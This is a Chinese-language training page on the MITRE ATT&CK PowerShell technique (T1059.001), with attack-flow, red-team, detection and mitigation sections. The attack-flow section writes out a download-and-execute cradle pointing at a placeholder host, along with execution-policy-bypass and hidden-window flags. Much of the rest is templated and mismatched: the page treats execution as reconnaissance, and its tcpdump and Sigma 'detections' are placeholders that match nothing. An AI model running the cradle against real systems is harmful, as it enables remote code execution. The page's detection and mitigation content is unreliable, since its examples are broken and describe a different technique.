

# PowerShell (T1059.001)

## 一句话通俗理解

> **PowerShell就是Windows下最强大的脚本工具。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | Windows自带的命令行脚本引擎，攻击者用它执行恶意命令，无需额外安装任何软件 |
| 为什么危险？ | 它是系统内置工具，几乎所有Windows电脑都有，而且功能极其强大，能做系统管理能做的一切事情 |
| 谁需要关心？ | Windows管理员、SOC分析师、任何维护Windows环境的安全人员 |
| 你的第一步防御 | 开启PowerShell脚本块日志（事件ID 4104），这是检测恶意PowerShell活动最有效的手段 |
| 如果只做一件事 | 监控 `powershell.exe` 的异常子进程创建，特别是 `cmd.exe`、`wscript.exe`、`mshta.exe` 等被PowerShell启动的情况 |

## 难度等级

⭐ 初级 - 需要一定的技术基础和实践经验

## 前置知识检查

**读这个文件需要什么？**

- [ ] 操作系统进程模型
- [ ] 常见脚本语言基础（PowerShell/bash/Python）
- [ ] 代码执行基本概念

## 技术描述

**通俗解释：**

**过渡段：** 不要误以为执行只是'运行恶意程序'这么简单——攻击者真正高明的地方在于'就地取材'（Living off the Land）。他们利用系统自带的PowerShell、cmd、wmic等合法工具执行恶意操作，因为它们本身就是操作系统的一部分，安全软件很难完全禁止。
Windows下最强大的脚本工具，红队的"瑞士军刀"

> 💻 **打个比方**：就像用万能遥控器控制所有家电——PowerShell是Windows上的强大脚本环境，攻击者可以用它执行任何操作。

**技术原理：**
T1059.001 是 命令和脚本解释器（T1059）的子技术，专注于PowerShell这一特定方面。攻击者在执行阶段，通过PowerShell来获取目标系统或组织的相关信息，为后续攻击步骤做准备。

**用途与影响：**
- 为后续攻击提供关键信息支撑
- 提高攻击的成功率和精准度
- 降低攻击被发现的概率

## 真实攻击流程



**步骤详解：**

1. **获取初始访问权限** - 通过钓鱼邮件、漏洞利用等方式获得对目标系统的初步访问
2. **通过PowerShell远程加载恶意载荷** - 使用IEX(New-Object Net.WebClient).DownloadString远程加载恶意脚本
3. **绕过执行策略与AMSI检测** - 使用-ExecutionPolicy Bypass和AMSI补丁技术绕过安全机制
4. **在内存中执行恶意模块** - 通过Invoke-Mimikatz等工具在内存中执行，避免写入磁盘
5. **利用PowerShell横向移动** - 使用Invoke-Command、Enter-PSSession等进行远程横向扩散
6. **窃取凭据并清理操作痕迹** - 窃取凭据后清除PowerShell历史记录和日志

## 攻击流程

```
获得Windows访问 --> powershell.exe执行命令 --> IEX加载远程脚本 --> 调用.NET/COM API执行
```


**步骤详解：**
1. **获得Windows访问**
   - 通俗描述：通过钓鱼、漏洞利用或横向移动进入Windows系统获得初始执行能力
   - 技术细节：通常通过Office宏、HTA文件或PsExec等工具启动PowerShell子进程
   - 常用工具：Cobalt Strike、Metasploit、PsExec
2. **powershell.exe执行命令**
   - 通俗描述：调用PowerShell解释器执行命令或脚本，常用参数绕过执行策略
   - 技术细节：`powershell -Exec Bypass -WindowStyle Hidden -Command "..."` 或 `-EncodedCommand`
   - 常用工具：powershell.exe（系统自带）、PowerShell ISE
3. **IEX加载远程脚本**
   - 通俗描述：通过Invoke-Expression下载执行远程Payload，无文件落地
   - 技术细节：`IEX (New-Object Net.WebClient).DownloadString('http://x/payload.ps1')`
   - 常用工具：PowerShell内置WebClient、Invoke-WebRequest、Net.WebRequest
4. **调用.NET/COM API执行**
   - 通俗描述：通过PowerShell调用底层.NET和COM接口完成提权、横向、凭据窃取
   - 技术细节：调用 `[System.Reflection.Assembly]::Load`、`New-Object -ComObject`、Win32 API反射
   - 常用工具：PowerSploit、Mimikatz、Empire、SharpHound

## 真实案例

### 案例1：APT组织使用PowerShell进行攻击准备

- **时间**: 2023-2024年
- **目标**: 多行业目标组织
- **攻击组织**: 多个APT组织
- **手法**: 攻击者在攻击初期大量使用PowerShell技术收集目标信息，为后续定向攻击做准备
- **影响**: 攻击成功率显著提高，防御者难以及时发现侦察行为
- **参考链接**: [MITRE ATT&CK - T1059.001](https://attack.mitre.org/techniques/T1059/001/)

### 案例2：红队演练中的PowerShell应用

- **时间**: 2024-2025年
- **目标**: 授权测试的企业客户
- **攻击组织**: 红队团队
- **手法**: 在授权的红队演练中，PowerShell被用于模拟真实攻击者的信息收集行为，测试企业安全监控体系能否及时发现侦察活动
- **影响**: 帮助企业发现信息暴露面和安全监控盲区
- **参考链接**: 红队演练报告（内部资料）

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **隐蔽优先**：在执行阶段使用被动方式收集信息，避免触发安全告警
2. **信息验证**：对收集到的信息进行交叉验证，确保准确性和时效性
3. **工具选择**：根据目标环境选择合适的工具，避免使用已被广泛检测的工具
4. **OPSEC意识**：使用匿名网络、临时环境进行操作，防止溯源

### 常用工具

| 工具名称 | 用途 | 平台 |
|---------|------|------|
| PowerShell Empire | PowerShell远程控制框架，支持模块化攻击 | 跨平台 |
| PoshC2 | 纯PowerShell C2框架，支持多种Payload生成 | 跨平台 |
| Covenant | .NET命令控制框架，支持动态代码编译 | Windows |
| Cobalt Strike PowerShell | Cobalt Strike的PowerShell Payload生成和执行模块 | Windows |

### 注意事项

- 仅在授权范围内使用PowerShell技术
- 注意操作的隐蔽性，避免被蓝队发现
- 记录操作日志，用于后续分析和报告编写

## 蓝队视角

### 检测要点

1. **异常信息收集行为**：监控来自内部系统的异常数据查询和收集行为
2. **可疑工具使用**：检测与PowerShell相关的工具在内部网络中的使用
3. **异常网络流量**：监控对外部信息收集平台的可疑网络连接
4. **权限异常**：关注非授权用户的信息收集和查询行为

### 监控建议

- 部署信息收集行为的检测规则
- 建立基准行为模型，及时发现异常
- 定期审计敏感信息的访问记录

## 避坑指南

防御者常见误区：只监控恶意文件而忽略脚本执行。

## 检测建议

### 网络层检测

**检测方法：** 监控与PowerShell相关的网络流量特征

**具体规则/命令示例：**

```bash
# 监控异常DNS查询
tcpdump -i eth0 port 53 | grep -E "可疑域名"
```

### 主机层检测

**Windows事件ID：**

- 事件ID 4688：可疑进程创建
- 事件ID 4104：PowerShell脚本块日志

**Linux日志：**

- 日志文件：`/var/log/syslog`
- 关键字段：可疑命令执行

### 应用层检测

**用人话说：** 这条规则在监控PowerShell是否启动了可疑的子进程。正常情况下，PowerShell不会去启动Word、浏览器或者网络工具。如果它开始干这些事，大概率是攻击者在用PowerShell当"跳板"，通过它来下载恶意文件、执行远程脚本或者横向移动到其他电脑。简单说，谁家正经PowerShell会去开浏览器？

**Sigma规则示例：**

```yaml
title: Suspicious PowerShell Activity
status: experimental
description: Detects potential PowerShell behavior
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\\可疑工具.exe'
  condition: selection
level: medium
tags:
  - attack.T1059/001
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 敏感信息保护

**具体实施步骤：**

1. 识别和分类组织内的敏感信息
2. 对敏感信息实施访问控制和加密
3. 部署信息泄露防护（DLP）解决方案

### 优先级2：重要措施

**措施名称：** 员工安全意识培训

**具体实施步骤：**

1. 定期开展信息安全意识培训
2. 教育员工识别社交工程攻击
3. 建立信息报告和响应机制

### 优先级3：建议措施

**措施名称：** 安全配置加固

**具体实施步骤：**

1. 限制公开可访问的系统信息
2. 配置合适的日志记录和告警策略
3. 定期进行安全评估和渗透测试

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|---------|------|:----:|------|
| 本地虚拟机 | 虚拟环境 | 初级 | 本机搭建 |
| TryHackMe | 在线靶场 | 初级 | https://tryhackme.com |

**所需工具：**

- 根据具体技术需求准备相应工具

**环境搭建：**

```bash
# 准备隔离的实验环境
# 具体命令根据实验内容而定
```

### 实验1：基础实践（初级）

**实验目标：** 理解和练习PowerShell的基本操作

**实验步骤：**

1. 在隔离环境中搭建实验系统
2. 按照技术描述执行基本操作
3. 观察和记录实验现象

**预期结果：** 成功完成PowerShell的基本操作

**学习要点：** 理解PowerShell的原理和操作方法

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|-----|---------|---------|
| PowerShell | PowerShell | PowerShell的基本概念和操作方法 |
| 侦察 | Reconnaissance | 收集目标信息的过程，为后续攻击做准备 |
| OPSEC | Operational Security | 操作安全，保护行动信息不被对手发现 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1059 - 命令和脚本解释器](../T1059-Command-and-Scripting-Interpreter.md)
- [T1059 - 命令和脚本解释器](../T1059-Command-and-Scripting-Interpreter.md)
- [T1059 - 命令和脚本解释器](../T1059-Command-and-Scripting-Interpreter.md)

## 认知偏误分析

### 锚定效应（Anchoring）

分析师在检测 PowerShell 恶意活动时，容易过度依赖单一指标（如 `powershell.exe -EncodedCommand` 参数），认为只要监控这个特征就能捕获所有攻击。实际上，现代攻击者已广泛使用无参数 PowerShell（通过 `-Command` 传入变量）、CLR 加载、或直接调用 `System.Management.Automation` 命名空间来绕过这类检测。将检测锚定在"编码命令"这个单一特征上，会导致大量绕过攻击被忽略。

### 确认偏误（Confirmation Bias）

当分析师看到 PowerShell 创建了子进程（如启动 cmd.exe），容易立即判定为恶意行为，并选择性关注支持这一判断的证据，忽略正常的运维场景。实际上，合法的 DevOps 脚本、SCCM 客户端、甚至 Windows Update 都可能触发 PowerShell 创建子进程。确认偏误会导致误报率升高，削弱 SOC 对真实告警的响应能力。

### 可得性启发（Availability Heuristic）

近年来公开报道的 PowerShell 攻击（如 Cobalt Strike 的 PowerShell payload、Emotet 的 PowerShell 下载器）使分析师高估了 PowerShell 在所有攻击中的占比。实际上，许多 APT 组织已转向使用 .NET 程序集直接加载（Execute-Assembly）或 BYOB 等技术，完全绕过 PowerShell 执行。过度关注 PowerShell 而忽视其他 LOLBins 会导致检测盲区。

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1059](https://attack.mitre.org/techniques/T1059/)
- [MITRE ATT&CK - T1059.001](https://attack.mitre.org/techniques/T1059/001/)
- [MITRE ATT&CK - T1059.001 检测](https://attack.mitre.org/techniques/T1059/001/detections/)

### 📰 安全报告（真实攻击）

- [CISA Known Exploited Vulnerabilities](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [Microsoft Security Blog](https://www.microsoft.com/en-us/security/blog/)

### 学习资源

- [MITRE ATT&CK 官方文档](https://attack.mitre.org/)
- [ATT&CK STIX Data](https://github.com/mitre-attack/attack-stix-data)

